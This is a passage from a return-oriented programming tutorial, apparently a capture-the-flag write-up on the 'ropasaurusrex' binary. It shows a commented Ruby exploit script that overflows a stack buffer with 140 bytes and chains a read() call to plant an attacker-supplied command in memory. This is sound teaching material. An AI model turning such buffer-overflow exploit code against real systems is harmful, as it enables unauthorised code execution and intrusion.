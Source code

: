 +----------------------+
|         ...          | - doesn't matter, read() will use for locals
+----------------------+
</pre>

We update our exploit to look like this (explanations are in the comments):

<pre>
<span class="lnr"> 1 </span>$ cat sploit.rb
<span class="lnr"> 2 </span><span class="PreProc">require</span> <span class="Special">'</span><span class="Constant">socket</span><span class="Special">'</span>
<span class="lnr"> 3 </span>
<span class="lnr"> 4 </span>s = <span class="Type">TCPSocket</span>.new(<span class="Special">&quot;</span><span class="Constant">localhost</span><span class="Special">&quot;</span>, <span class="Constant">4444</span>)
<span class="lnr"> 5 </span>
<span class="lnr"> 6 </span><span class="Comment"># The command we'll run</span>
<span class="lnr"> 7 </span>cmd = <span class="Identifier">ARGV</span>[<span class="Constant">0</span>] + <span class="Special">&quot;</span><span class="Special">\0</span><span class="Special">&quot;</span>
<span class="lnr"> 8 </span>
<span class="lnr"> 9 </span><span class="Comment"># From objdump -x</span>
<span class="lnr">10 </span>buf = <span class="Constant">0x08049530</span>
<span class="lnr">11 </span>
<span class="lnr">12 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep read</span>
<span class="lnr">13 </span>read_addr = <span class="Constant">0x0804832C</span>
<span class="lnr">14 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep write</span>
<span class="lnr">15 </span>write_addr = <span class="Constant">0x0804830C</span>
<span class="lnr">16 </span>
<span class="lnr">17 </span><span class="Comment"># Generate the payload</span>
<span class="lnr">18 </span>payload = <span class="Special">&quot;</span><span class="Constant">A</span><span class="Special">&quot;</span>*<span class="Constant">140</span> +
<span class="lnr">19 </span>  [
<span class="lnr">20 </span>    cmd.length, <span class="Comment"># number of bytes</span>
<span class="lnr">21 </span>    buf,        <span class="Comment"># writable memory</span>
<span class="lnr">22 </span>    <span class="Constant">0</span>,          <span class="Comment"># stdin</span>
<span class="lnr">23 </span>    <span class="Constant">0x43434343</span>, <span class="Comment"># read's return address</span>
<span class="lnr">24 </span>
<span class="lnr">25 </span>    read_addr <span class="Comment"># Overwrite the original return</span>
<span class="lnr">26 </span>  ].reverse.pack(<span class="Special">&quot;</span><span class="Constant">I*</span><span class="Special">&quot;</span>) <span class="Comment"># Convert a series of 'ints' to a string</span>
<span class="lnr">27 </span>
<span class="lnr">28 </span><span class="Comment"># Write the 'exploit' payload</span>
<span class="lnr">29 </span>s.write(payload)
<span class="lnr">30 </span>
<span class="lnr">31 </span><span class="Comment"># When our payload calls read() the first time, this is read</span>
<span class="lnr">32 </span>s.write(cmd)
<span class="lnr">33 </span>
<span class="lnr">34 </span><span class="Comment"># Clean up</span>
<span class="lnr">35 </span>s.close()
</pre>

